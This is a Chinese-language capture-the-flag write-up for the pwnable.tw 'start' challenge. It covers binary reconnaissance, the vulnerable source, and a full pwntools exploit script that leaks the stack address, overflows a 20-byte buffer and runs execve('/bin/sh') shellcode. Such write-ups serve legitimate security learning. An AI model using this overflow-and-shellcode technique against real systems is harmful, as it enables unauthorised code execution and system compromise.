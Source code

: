 pwnable.tw 学习 start

参考：

    http://www.jianshu.com/p/8c13e3ed9589
    http://dogewatch.github.io/2017/04/10/pwnable.tw-Part1/

# start 


利用思路：通过leak出esp地址，对esp之后写入shellcode就会执行，而且执行的shellcode满足小于32字节

做题步骤：

(1)先通过file命令查看x86还是x64

	file start
	start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

(2)checksec查看何种防护方式

	gdb start
	gdb-peda$ checksec
	CANARY    : disabled
	FORTIFY   : disabled
	NX        : ENABLED
	PIE       : disabled
	RELRO     : disabled

可以看到NX保护开了，但是我们实际在运行中，为什么NX保护会开呢？
但是最后的做法就是看checksec的源码

(3)int 80 中断方式执行代码

sys_write
sys_read
....

[http://syscalls.kernelgrok.com/](http://syscalls.kernelgrok.com/) 中断查询

(4)题目源码

	void _start(){
	  char buf[20] = 'Let's start the CTF:';
	  sys_write(1,buf,20);
	  sys_read(0,buf,60);
	}
	void _exit(){
	  sys_exit();
	}

利用思路：leak出地址，算出shellcode起始地址，然后跳转到shellcode执行

坑点：
checksec 显示NX，但是实际可以shellcode写栈后执行。shellcode在0x14后的位置，因为leak出来得地址是
esp+4的地址，只要加上20就可以调到shellcode，如何计算不是很清楚，可以多加点‘NOP’指令，就可以挂到
下面继续执行了。

(5)exploit：

	from pwn import *
	
	debug = 0
	
	if debug:
		s = process('./start')
		#context.terminal = ['gnome-terminal','-x','sh','c']
		gdb.attach(s,'b _start')
	else:
		s = remote('chall.pwnable.tw',10000)
	
	addr_1 = p32(0x08048087) # mov ecx,esp
	shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
	
	def leak():
		recv1 = s.recvuntil(':')
		print recv1
		payload = 'a'*20 + addr_1
		s.send(payload)
		print 'send :' + payload
		stack_addr = s.recv(4)
		print 'stack address is %x' % u32(stack_addr)
		return u32(stack_addr)
	
	def pwn(addr):
		payload = 'a'*20 + p32(addr+24)+'\x90'*10+shellcode
		s.send(payload)
		print 'send :' + payload
	
	addr_2 = leak()
	pwn(addr_2)
	s.interactive('\nshell#')

然后提交flag，ok

